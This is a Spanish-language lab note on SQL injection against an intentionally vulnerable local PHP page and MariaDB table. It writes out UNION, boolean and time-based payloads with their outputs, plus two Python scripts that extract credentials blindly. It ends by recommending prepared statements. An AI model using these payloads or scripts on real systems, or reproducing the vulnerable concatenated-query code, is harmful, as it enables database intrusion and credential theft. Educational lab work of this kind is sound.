

---
tags:
  - estructura/documentacion
  - formato/tabla
  - formato/apunte
  - gestion/duracion/corto
  - gestion/relevancia/muy-alta
  - gestion/estado/terminado
  - gestion/dificultad/normal
  - hacking/fundamental
  - hacking/red-team
  - hacking/purple-team
  - entorno/os/linux
  - entorno/infra/servidor-local
  - auditoria/enumeracion/servicios
  - auditoria/explotacion/manual
  - tecnologia/servicio/http-s
  - desarrollo/scripting
  - desarrollo/lenguaje/python
  - vulnerabilidades/web/sqli
---
## Parte 1, explicación SQL Injection

SQL Injection (SQLI) es una técnica de ataque utilizada para explotar vulnerabilidades en aplicaciones web que no validan adecuadamente la entrada del usuario en la consulta SQL que se envía a la base de datos. Los atacantes pueden utilizar esta técnica para ejecutar consultas SQL maliciosas y obtener información confidencial, como nombres de usuario, contraseñas y otra información almacenada en la base de datos.

Las inyecciones SQL se producen cuando se inserta código SQL malicioso en los campos de entrada de una aplicación web. Si la aplicación no valida ni sanitiza adecuadamente la entrada del usuario, la consulta SQL maliciosa se ejecuta directamente en la base de datos, permitiendo al atacante obtener información confidencial o incluso controlar la base de datos.

### Tipos de inyección SQL

- **Basada en errores**: aprovecha los mensajes de error que devuelve el motor de base de datos para obtener información adicional del sistema (nombres de tablas, columnas, versión, etc).
- **Basada en tiempo**: utiliza funciones que retrasan la respuesta del servidor (como `sleep()`) para inferir información en función de cuánto tarda en responder la petición, sin necesidad de ver ningún dato en pantalla.
- **Basada en booleanos**: utiliza expresiones lógicas verdadero/falso dentro de la consulta para deducir información según cómo cambia la respuesta de la aplicación (por ejemplo, si existe o no un registro).
- **Basada en uniones (UNION)**: utiliza la cláusula `UNION` para combinar el resultado de la consulta original con otra consulta arbitraria, permitiendo extraer datos de otras tablas.
- **Basada en stacked queries**: aprovecha la posibilidad de ejecutar múltiples sentencias SQL separadas por `;` en una sola petición, permitiendo ejecutar consultas adicionales (inserciones, actualizaciones, etc).

### Tipos de bases de datos y su relación con SQLI

- **Relacionales** (MySQL/MariaDB, SQL Server, Oracle, PostgreSQL): son las más afectadas por SQLI, ya que utilizan directamente el lenguaje SQL para todas sus consultas.
- **NoSQL** (MongoDB, Cassandra): no usan SQL, pero pueden sufrir variantes como la inyección de comandos/operadores propios de su lenguaje de consulta (NoSQL Injection).
- **De grafos** (Neo4j): pueden ser vulnerables si no se sanitizan las consultas hacia sus nodos y relaciones.
- **De objetos** (db4o): también pueden ser vulnerables si las consultas hacia los objetos almacenados no se validan correctamente.

La defensa principal contra SQLI consiste en validar y sanitizar toda entrada de usuario, y sobre todo en utilizar **consultas preparadas (prepared statements)** en lugar de concatenar strings directamente en la consulta SQL.

En este laboratorio se monta un entorno vulnerable de forma intencional (base de datos + página PHP) para practicar la explotación manual de SQLI, desde consultas básicas hasta técnicas a ciegas y basadas en tiempo.

---

## Parte 2, creación de base de datos

Se iniciaron los servicios de MariaDB (mysql) y Apache2 necesarios para levantar el entorno vulnerable:

```bash
service mysql start
service apache2 start
```

Posteriormente se creó la base de datos `SQLI` y dentro de ella la tabla `users`, compuesta por los campos `id` (int), `username` (varchar) y `password` (varchar). Se insertaron 3 registros de prueba, simulando credenciales de distintos usuarios del sistema.



Como se observa en la imagen, la tabla `users` quedó con la siguiente estructura y contenido:

|id|username|password|
|---|---|---|
|1|admin|admin123$!p@$$|
|2|FabCA06|FABRICIO06|
|3|NaruGOD|prueba|

Esta base de datos es la que la aplicación PHP consultará en cada búsqueda, y será el objetivo de todo el laboratorio.

---

## Parte 3, establecer página web

Para exponer la vulnerabilidad a través de una aplicación web, se creó el archivo `searchUsers.php` dentro de `/var/www/html`, con conexión directa a la base de datos `SQLI` usando el usuario `FabCA06`.

```php
<?php

  $server = "localhost";
  $username = "FabCA06";
  $password = "FABRICIO06";
  $database = "SQLI";

	// Conexion
  $conn = new mysqli($server, $username, $password, $database);
  
  $id = $_GET['id'];

// Query
  $data = mysqli_query($conn, "select username from users where id = '$id'");

  if (!$data) {
    $error_msg = mysqli_error($conn);
    // Si el error contiene 'ORDER BY', lo cambiamos por el texto clásico 'order clause (como me paso a mi)'
    $classic_error = str_replace("'ORDER BY'", "'order clause'", $error_msg);
    die("Fatal error: Uncaught mysqli_sql_exception: " . $classic_error);
  }

  echo "[+] Tu valor introducido es: " . $id . "<br>--------------------------------<br>";

  $response = mysqli_fetch_array($data);

  echo $response['username'];

?>
```

El script recibe un parámetro `id` por GET y lo concatena **directamente**, sin ningún tipo de sanitización, dentro de la consulta SQL:

```sql
select username from users where id = '$id'
```

Esto es precisamente lo que hace a la aplicación vulnerable: como el valor de `$id` proviene sin filtrar de la URL, cualquier carácter especial de SQL (como una comilla simple `'`) que el atacante envíe se interpretará como parte de la consulta y no como un simple dato, permitiendo alterar la lógica de la sentencia SQL. Además, el script muestra en pantalla tanto el valor introducido como el mensaje de error de MySQL en caso de fallo, lo cual facilita enormemente la explotación (esto se conoce como una aplicación con "salida verbosa" o _error-based friendly_).

---

## Parte 4, consultas SQLI

Con la página ya vulnerable, se realizaron las primeras pruebas manuales para confirmar y explotar la inyección:

**Confirmar la inyección con una comilla simple:**

`http://localhost/searchUsers.php?id=1';`

```
Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1 in /var/www/html/searchUsers.php:13 Stack trace: #0 /var/www/html/searchUsers.php(13): mysqli_query() #1 {main} thrown in /var/www/html/searchUsers.php on line 13
```

Se obtiene un error de sintaxis SQL, lo cual confirma que el parámetro `id` no está siendo sanitizado y que se puede romper la consulta original.

**Determinar el número de columnas con `ORDER BY`:**

`http://localhost/searchUsers.php?id=1' order by 100;-- -;'`

```
Fatal error: Uncaught mysqli_sql_exception: Unknown column '100' in 'ORDER BY' in /var/www/html/searchUsers.php:13 Stack trace: #0 /var/www/html/searchUsers.php(13): mysqli_query() #1 {main} thrown in /var/www/html/searchUsers.php on line 13
```

Devuelve un error de columna desconocida, indicando que la tabla no tiene 100 columnas.

`http://localhost/searchUsers.php?id=1' order by 1;-- -;`

```
admin
```

Esta sí funciona y devuelve `admin`, confirmando que la consulta original solo maneja **1 columna** (`username`). Este paso es clave antes de usar `UNION`, ya que el número de columnas de ambas consultas debe coincidir.

**Confirmar el número de columnas con `UNION SELECT`:**

`http://localhost/searchUsers.php?id=1' union select 1,2-- -`

```
Fatal error: Uncaught mysqli_sql_exception: The used SELECT statements have a different number of columns in /var/www/html/searchUsers.php:13 Stack trace: #0 /var/www/html/searchUsers.php(13): mysqli_query() #1 {main} thrown in /var/www/html/searchUsers.php on line 13
```

Devuelve un error de "different number of columns", confirmando (junto con el `ORDER BY`) que la consulta original solo tiene 1 columna.

`http://localhost/searchUsers.php?id=81242211' union select 1-- -`

```
1
```

Al usar un `id` inexistente (para que la primera parte de la consulta no devuelva nada) y una sola columna en el `UNION`, se logra inyectar el valor `1` directamente en la salida.

**Extracción de información mediante `UNION SELECT` e `information_schema`:**

A partir de aquí se abusa de la base de datos `information_schema`, que en MariaDB/MySQL almacena metadatos de todas las bases de datos, tablas y columnas del servidor:

`http://localhost/searchUsers.php?id=1174904' union select database()-- -`

```
SQLI
```

Revela el nombre de la base de datos actual.

`http://localhost/searchUsers.php?id=1174904' union select schema_name from information_schema.schemata-- -`

```
information_schema
```

Lista las bases de datos existentes en el servidor (solo se muestra la primera fila, ya que la consulta original solo espera un resultado).

`http://localhost/searchUsers.php?id=1174904' union select schema_name from information_schema.schemata limit 0,1-- -`

```
information_schema
```

Con `limit 0,1` se controla explícitamente qué fila se extrae.

`http://localhost/searchUsers.php?id=1174904' union select group_concat(schema_name) from information_schema.schemata-- -`

```
information_schema,SQLI
```

Usando `group_concat` se concatenan todas las bases de datos en una sola fila, evitando tener que iterar con `limit`.

`http://localhost/searchUsers.php?id=1174904' union select group_concat(table_name) from information_schema.tables where table_schema='SQLI'-- -`

```
users
```

Lista las tablas de la base `SQLI`.

`http://localhost/searchUsers.php?id=1174904' union select group_concat(column_name) from information_schema.columns where table_schema='SQLI' and table_name='users'-- -`

```
id,username,password
```

Lista todas las columnas de la tabla `users` de una sola vez.

`http://localhost/searchUsers.php?id=1174904' union select column_name from information_schema.columns where table_schema='SQLI' and table_name='users'-- -`

```
id
```

`http://localhost/searchUsers.php?id=1174904' union select column_name from information_schema.columns where table_schema='SQLI' and table_name='users' limit 0,1-- -`

```
id
```

`http://localhost/searchUsers.php?id=1174904' union select column_name from information_schema.columns where table_schema='SQLI' and table_name='users' limit 1,1-- -`

```
username
```

`http://localhost/searchUsers.php?id=1174904' union select column_name from information_schema.columns where table_schema='SQLI' and table_name='users' limit 2,1-- -`

```
password
```

Con `limit 0,1`, `limit 1,1` y `limit 2,1` se extraen las columnas una por una, útil cuando `group_concat` no está disponible o se quiere depurar el proceso manualmente.

**Extracción de las credenciales:**

`http://localhost/searchUsers.php?id=1174904' union select group_concat(username) from users-- -`

```
admin,FabCA06,NaruGOD
```

`http://localhost/searchUsers.php?id=1174904' union select group_concat(password) from users-- -`

```
admin123$!p@$$,FABRICIO06,prueba
```

`http://localhost/searchUsers.php?id=1174904' union select group_concat(username,':',password) from users-- -`

```
admin:admin123$!p@$$,FabCA06:FABRICIO06,NaruGOD:prueba
```

Con esto se logró extraer usuarios y contraseñas completas de la base de datos utilizando únicamente inyección basada en `UNION`.

**Confirmar inyección basada en tiempo:**

`http://localhost/searchUsers.php?id=1' and sleep(5)-- -`

```
(Se esperó 5 segundos)
```

La respuesta tardó 5 segundos, confirmando que también es posible explotar la vulnerabilidad sin depender de la salida en pantalla (esto se retoma más a fondo en la Parte 8).

---

## Parte 5, sanitización

Se aplicó una primera medida de mitigación utilizando la función `mysqli_real_escape_string()`, que escapa los caracteres especiales de SQL (como la comilla simple) antes de insertarlos en la consulta:

```php
  // Sanitizacion
  $id = mysqli_real_escape_string($conn, $_GET['id']);
  
  echo "[+] Tu valor introducido es: " . $id . "<br>--------------------------------<br>";
```

Al probar de nuevo la inyección:

`http://localhost/searchUsers.php?id=1' union select 1-- -`

```
[+] Tu valor introducido es: 1\' union select 1-- -
--------------------------------
admin
```

Se observa que la comilla simple fue escapada automáticamente (`\'`), por lo que ya no rompe la consulta SQL; el `union select` se trata como texto literal y la consulta original simplemente devuelve el usuario con `id = 1`.

`http://localhost/searchUsers.php?id=9' union select 1-- -`

```
[+] Tu valor introducido es: 9\' union select 1-- -
--------------------------------

Warning: Trying to access array offset on null in /var/www/html/searchUsers.php on line 27
```

Al no existir ningún usuario con `id = 9`, la consulta no devuelve resultados y aparece una advertencia de PHP (`Trying to access array offset on null`), ya que el script intenta acceder a un índice de un arreglo vacío. Esto confirma que la inyección quedó neutralizada, aunque expone un nuevo problema: el manejo de errores de PHP sigue mostrando información de depuración.

---

## Parte 6, manejo de errores e inyección basada en booleanos

Se realizó una segunda iteración del script, endureciendo el manejo de la respuesta: se eliminaron los `echo` que reflejaban el valor introducido por el usuario (para no dar pistas al atacante) y se agregó una validación con `isset()` para controlar el caso en que no se encuentre ningún usuario, devolviendo un código de estado HTTP apropiado en lugar de un warning de PHP:

```php
<?php

  $server = "localhost";
  $username = "FabCA06";
  $password = "FABRICIO06";
  $database = "SQLI";

  // Conexion a la base de datos
  $conn = new mysqli($server, $username, $password, $database);

  // Sanitizacion
  $id = mysqli_real_escape_string($conn, $_GET['id']);

  $data = mysqli_query($conn, "select username from users where id = '$id'");

  $response = mysqli_fetch_array($data);

  if (!isset($response['username'])) {
      http_response_code(404);
  } else {
      echo $response['username'];
  }

?>
```

Con la sanitización aún activa, se probó una inyección basada en booleanos usando subconsultas para comparar carácter por carácter el `username`:

`http://localhost/searchUsers.php?id=1' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id = 1) = 'a'-- -`

```
admin
```

Devuelve `admin`, porque la condición es verdadera (el primer carácter del username con `id=1` es efectivamente `a`).

`http://localhost/searchUsers.php?id=1' AND (SELECT ASCII(SUBSTRING(username,1,1)) FROM users WHERE id = 1) = 97-- -`

```
admin
```

También devuelve `admin`, usando el código ASCII (97 = 'a') en lugar del carácter directo. Esta segunda forma es la que después se automatiza en el script de fuerza bruta, ya que trabajar con valores ASCII numéricos es más sencillo de iterar en un bucle que con caracteres literales.

Después de estas pruebas se **eliminó la sanitización** para volver a dejar el endpoint vulnerable y así poder practicar SQL Injection a ciegas en las siguientes partes.

---

## Parte 7, SQLI a ciegas

En este punto se modificó la página para que **no muestre ningún output visible**, simulando un escenario más realista donde el atacante no puede ver directamente los datos ni los mensajes de error, sino que solo puede inferir información a partir del comportamiento de la aplicación (en este caso, el código de estado HTTP):

```php
<?php

  $server = "localhost";
  $username = "FabCA06";
  $password = "FABRICIO06";
  $database = "SQLI";

  // Conexion a la base de datos
  $conn = new mysqli($server, $username, $password, $database);

  // Sanitizacion
  //$id = mysqli_real_escape_string($conn, $_GET['id']);
  $id = $_GET['id'];


  $data = mysqli_query($conn, "select username from users where id = '$id'");

  $response = mysqli_fetch_array($data);

  if (!isset($response['username'])) {
    http_response_code(404);
    exit();
  } else {
    http_response_code(200);
    exit();
  }

?>
```

Ahora la aplicación es un simple oráculo booleano: devuelve **200** si la condición de la subconsulta es verdadera, o **404** si es falsa. Esto es exactamente lo que se necesita para hacer SQLI a ciegas basada en booleanos.

Se verifica el comportamiento usando `curl` para inspeccionar únicamente las cabeceras (`-I`) y el status code:

```bash
❯ curl -s -I -X get "http://localhost/searchUsers.php" -G --data-urlencode "id=9' or (select ascii(substring(username,1,1)) from users where id = 1) = 97-- -"

HTTP/1.1 200 OK
...
```

```bash
❯ curl -s -I -X get "http://localhost/searchUsers.php" -G --data-urlencode "id=9' or (select ascii(substring(username,1,1)) from users where id = 1) = 98-- -"

HTTP/1.1 404 Not Found
...
```

Al usar `id=9` (que no existe) junto con un `OR`, la única forma de que la consulta devuelva una fila es que la condición inyectada sea verdadera. Esto permite comprobar carácter por carácter, usando su valor ASCII, si el dato extraído coincide con el valor probado.

### Script de automatización

A partir de esta lógica se construyó un script en Python que automatiza el proceso de fuerza bruta carácter por carácter:

```python
#!/usr/bin/python3

import requests
import signal
import sys
import time
import string
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
characters = string.printable

def makeSQLI():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Datos extraídos")

    extracted_info = ""

    for position in range(1, 150):
        for character in range(33, 126):
            sqli_url = main_url + "?id=9' OR (SELECT ASCII(SUBSTRING((select group_concat(username,0x3A,password) from users), %d, 1))) = %d-- -" % (position, character)

            p1.status("Probando posición %d con carácter %s" % (position, chr(character)))

            r = requests.get(sqli_url)

            if r.status_code == 200:
                extracted_info += chr(character)
                p2.status(extracted_info)
                break

if __name__ == '__main__':

    makeSQLI()
```

**Lógica del script:**

1. Se recorre cada posición de un string desde 1 hasta 150 (rango suficiente para cubrir todos los usuarios y contraseñas concatenados).
2. Para cada posición, se prueban los códigos ASCII imprimibles del 33 al 126 (excluye espacios y caracteres de control).
3. La consulta inyectada compara el carácter en esa posición del resultado de `group_concat(username,0x3A,password)` (todos los usuarios y contraseñas concatenados, separados por `:`, representado en hexadecimal como `0x3A` para evitar problemas con la comilla) contra el valor ASCII probado.
4. Si el servidor responde con status **200**, significa que la comparación fue verdadera: ese es el carácter correcto en esa posición, se agrega al resultado y se pasa a la siguiente posición.
5. Se usa la librería `pwntools` (`log.progress`) únicamente para mostrar el avance del ataque en consola de forma más visual, no forma parte de la lógica de extracción.

**Resultado obtenido:**

```
❯ python3 sqli.py
[>] Fuerza bruta: Probando posición 149 con carácter }
[.] Datos extraídos: admin:admin123$!p@$$,FabCA06:FABRICIO06,NaruGOD:prueba
```

El script logró reconstruir automáticamente, carácter por carácter y sin ver ningún dato en pantalla, las mismas credenciales que se habían extraído manualmente en la Parte 4.

---

## Parte 8, SQLI basado en tiempo

La inyección a ciegas basada en booleanos depende de que la aplicación tenga alguna diferencia observable (como el status code) entre una condición verdadera y una falsa. Cuando ni siquiera existe esa diferencia (por ejemplo, la aplicación siempre responde igual sin importar el resultado de la consulta), se puede recurrir a la **inyección basada en tiempo**, que usa la duración de la respuesta como el único canal de información.

Primero se probó el comportamiento directamente en la consola de MariaDB, usando la función `sleep()` dentro de un `IF()`:

```
MariaDB [SQLI]>  select * from users where id = 1 and if(substr(database(),1,1)='a',sleep(5),1);
+------+----------+----------------+
| id   | username | password       |
+------+----------+----------------+
|    1 | admin    | admin123$!p@$$ |
+------+----------+----------------+
1 row in set (0.001 sec)
```

Como el primer carácter de `database()` (`SQLI`) no es `'a'`, la condición es falsa y la consulta responde de inmediato.

```
MariaDB [SQLI]>  select * from users where id = 1 and if(substr(database(),1,1)='S',sleep(5),1);
Empty set (5.001 sec)
```

Aquí la condición sí es verdadera (`S` es el primer carácter de `SQLI`), por lo que se ejecuta `sleep(5)` y la respuesta tarda 5 segundos, confirmando el carácter sin necesidad de ver ningún dato de salida.

### Script modificado

Se adaptó el script de la Parte 7, reemplazando la condición basada en status code por una condición basada en tiempo de respuesta:

```python
# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
characters = string.printable

def makeSQLI():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Datos extraídos")

    extracted_info = ""

    for position in range(1, 150):
        for character in range(33, 126):
            # AJUSTE SQL: Subimos el sleep a 1 segundo para ganarle al ruido de la red
            sqli_url = main_url + "?id=1' and if(ascii(substr((select group_concat(username,0x3a,password) from users),%d,1))=%d,sleep(1),1)-- -" % (position, character)

            # AJUSTE VISUAL: Texto corto para no romper las dos líneas en consola
            p1.status("Probando posición %d con carácter %s" % (position, chr(character)))

            time_start = time.time()

            r = requests.get(sqli_url)

            time_end = time.time()

            # AJUSTE LOGICA: Si la respuesta tardó 1 segundo o más, es un acierto seguro
            if time_end - time_start >= 1:
                extracted_info += chr(character)
                p2.status(extracted_info)
                break

if __name__ == '__main__':

    makeSQLI()
```

**Diferencias clave respecto al script de la Parte 7:**

- En lugar de revisar `r.status_code`, se mide manualmente el tiempo transcurrido entre el envío de la petición (`time_start`) y la recepción de la respuesta (`time_end`).
- La condición inyectada usa `if(condicion, sleep(1), 1)`: si la comparación de carácter es verdadera, la base de datos duerme 1 segundo antes de responder; si es falsa, responde de inmediato.
- Se usó un `sleep(1)` (en lugar de 5 segundos como en la prueba manual) para acelerar el proceso de fuerza bruta y reducir el tiempo total de ejecución, siempre y cuando la latencia de red sea lo suficientemente baja como para no generar falsos positivos.
- Un tiempo de respuesta `>= 1` segundo se interpreta como un acierto, ya que en condiciones normales la petición debería resolverse en milisegundos.

**Resultado obtenido:**

```
❯ python3 sqli.py
[<] Fuerza bruta: Probando posición 149 con carácter }
[◤] Datos extraídos: admin:admin123$!p@$$,FabCA06:FABRICIO06,NaruGOD:prueba
```

Se obtuvieron exactamente las mismas credenciales que en las Partes 4 y 7, esta vez sin depender de ninguna diferencia visible en la respuesta (ni contenido, ni status code), únicamente del tiempo que tarda el servidor en responder.

---

## Parte 9, Conclusión

A lo largo de este laboratorio se recorrió el ciclo completo de una vulnerabilidad de SQL Injection: desde su explotación más directa (inyección basada en `UNION`, con salida de errores y datos visibles en pantalla), pasando por medidas de mitigación parciales (sanitización con `mysqli_real_escape_string`, manejo de errores más cuidadoso), hasta escenarios donde la aplicación no revela ningún dato ni error, obligando a recurrir a técnicas de inyección a ciegas basadas en booleanos y, finalmente, basadas en tiempo.

Este recorrido deja claro que **eliminar la salida visible de errores no es suficiente para mitigar SQLI**: mientras la entrada del usuario se siga concatenando directamente en la consulta SQL, la vulnerabilidad seguirá siendo explotable, simplemente requiere técnicas más lentas y elaboradas (como los scripts de fuerza bruta carácter por carácter usados en las Partes 7 y 8). La única mitigación realmente efectiva es el uso de **consultas preparadas (prepared statements)** con parámetros vinculados (_bound parameters_), en lugar de construir la consulta SQL mediante concatenación de strings, sin importar cuántas capas de sanitización o manejo de errores se agreguen encima.

[[E8 - Vulnerabilidades y OWASP Top 10|⬅️ Volver a E8 - Vulnerabilidades y OWASP Top 10]]